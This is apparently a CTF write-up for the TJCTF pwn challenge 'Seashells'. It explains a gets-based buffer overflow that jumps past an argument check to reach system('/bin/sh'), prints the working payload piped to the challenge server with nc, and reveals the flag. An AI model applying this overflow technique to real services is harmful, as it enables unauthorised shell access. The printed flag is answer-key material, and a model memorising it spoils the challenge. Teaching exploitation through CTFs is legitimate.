 # Seashells
Pwn, 50

>  Written by KyleForkBomb
>  I heard there's someone selling shells? They seem to be out of stock though... nc p1.tjctf.org 8009 

This is pretty standard `gets` rop, and there's a convenient `shell` function which spawns a shell. The `shell` function checks an argument, but you can just jump past the if statement directly into the `system("/bin/sh")`. Here's the final payload (remember to use `cat -` so stdin stays open):
```
(python -c 'print "A"*18 + "\xe3\x06\x40\x00\x00\x00\x00\x00"'; cat -) | nc p1.tjctf.org 8009
```

Flag: `tjctf{she_s3lls_se4_sh3ll5}`